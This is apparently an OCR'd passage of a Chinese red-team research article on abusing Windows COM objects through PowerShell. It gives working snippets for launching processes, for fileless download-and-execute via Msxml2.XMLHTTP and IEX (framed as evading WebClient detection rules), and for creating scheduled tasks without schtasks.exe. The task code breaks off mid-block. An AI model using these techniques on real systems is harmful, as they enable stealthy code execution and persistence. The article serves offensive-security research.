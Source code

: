 
非Microsoft的COM对象通常会被省略，因为它们不能可靠地存在于目标及其上，这限制了这些对象在红蓝对抗实际蓝军***中的可用性。为了定位开发人员的计算机，我们在此项研究中涵盖了Windows SDK中的特定Microsoft COM对象。

在获得成员后，使用基于关键字的搜索方法快速得到结果。在我们的研究中，使用了以下关键字：execute（执行）、exec（执行）、spawn（派生）、launch（执行）和run（运行）。

## 启动进程

可以启动命令，如下所示。

使用ProcessChainLib COM服务器启动进程：

```ps1
$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("E430E93D-09A9-4DC5-80E3-CBB2FB9AF28E"))

$handle.CommandLine = "cmd /c whoami"

$handle.Start([ref]$True)
```

## 无文件下载和执行

COM对象{F5078F35-C551-11D3-89B9-0000F81FE221}（Msxml2.XMLHTTP.3.0）公开了一个XML HTTP 3.0功能，该功能可用于下载任意代码并执行，无需将Payload写入磁盘，并且不会触发寻找常用System.Net.WebClient的规则。XML HTTP 3.0对象通常用于执行AJAX请求。在这种情况下，可以使用Invoke-Expression Cmdlet（IEX）直接执行获取的数据。

下面的示例展示了本地执行代码的过程。

不包含System.Net.WebClient的无文件下载：

```
$o = [activator]::CreateInstance([type]::GetTypeFromCLSID("F5078F35-C551-11D3-89B9-0000F81FE221"));
$o.Open("GET", "http://127.0.0.1/payload", $False);
$o.Send(); IEX $o.responseText;
```

### 任务调度

另一个例子是{0F87369F-A4E5-4CFC-BD3E-73E6154572DD}，它实现了用于操作Windows任务调度程序服务的Schedule.Service类。该COM对象允许特权用户在不使用schtasks.exe二进制文件或at命令的情况下，在主机（包括远程主机）上执行计划任务。

```
$TaskName = [Guid]::NewGuid().ToString()

$Instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Schedule.Service"))

$Instance.Connect()

$Folder = $Instance.GetFolder("\")

$Task = $Instance.NewTask(0)

$Trigger = $Task.triggers.Create(0)

$Trigger.StartBoundary = Convert-Date -Date ((Get-Date).addSeconds($Delay))

$Trigger.EndBoundary = Convert-Date -Date ((Get-Date).addSeconds($Delay   120))

$Trigger.ExecutionTimelimit = "PT5M"

$Trigger.Enabled = $True

$Trigger.Id = $Taskname

$Action = $Task.Actions.Create(0)

$Action.Path = “cmd.exe”
```